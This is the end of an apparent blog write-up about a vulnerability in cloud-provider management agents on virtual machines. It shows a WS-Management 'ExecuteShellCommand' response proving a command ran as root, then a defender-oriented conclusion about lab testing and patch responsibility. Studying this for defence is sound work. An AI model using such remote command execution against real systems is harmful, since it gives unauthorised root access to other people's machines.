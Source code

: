 ```sh
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://www.w3.org/2003/05/soap-envelope" xmlns:wsa="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:wsen="http://schemas.xmlsoap.org/ws/2004/09/enumeration" xmlns:e="http://schemas.xmlsoap.org/ws/2004/08/eventing" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:wsmb="http://schemas.dmtf.org/wbem/wsman/1/cimbinding.xsd" xmlns:wsman="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:wxf="http://schemas.xmlsoap.org/ws/2004/09/transfer" xmlns:cim="http://schemas.dmtf.org/wbem/wscim/1/common" xmlns:msftwinrm="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd" xmlns:wsmid="http://schemas.dmtf.org/wbem/wsman/identity/1/wsmanidentity.xsd"><SOAP-ENV:Header><wsa:To>http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</wsa:To><wsa:Action>http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem/ExecuteShellCommand</wsa:Action><wsa:MessageID>uuid:B5C8928A-CCBF-0005-0000-000000010000</wsa:MessageID><wsa:RelatesTo>uuid:0AB58087-C2C3-0005-0000-000000010000</wsa:RelatesTo></SOAP-ENV:Header><SOAP-ENV:Body><p:SCX_OperatingSystem_OUTPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem"><p:ReturnValue>TRUE</p:ReturnValue><p:ReturnCode>0</p:ReturnCode><p:StdOut>uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0&#10;</p:StdOut><p:StdErr></p:StdErr></p:SCX_OperatingSystem_OUTPUT></SOAP-ENV:Body></SOAP-ENV:Envelope>%
```

The response should return a bit XML with the output of the command. This makes it a bit more difficult to figure out if the command ran successfully. But you should be able to find the `<p:StdOut>` tag containing the result of the command.

## Conclusion

Everything about this set of vulnerabilities is so intriguing. It shows how these undocumented agents that cloud providers install on our VM's can open us to a wide range of attacks. Having an environment to play around with the vulnerability is really helpful, in my opinion. It will allow us as blue teamers to get a good sense of the attack surface and validate any measures we put into our environments. Because until this point, it's still unclear who is responsible for patching up vulnerabilities like this. Is it the user that isn't even aware the agent exists? Or is it the cloud provider that should be messing with our setups and have admin rights on our machines? Whoever you think is responsible, I hope this article provided you with the right tools to start taking matters into your own hands!
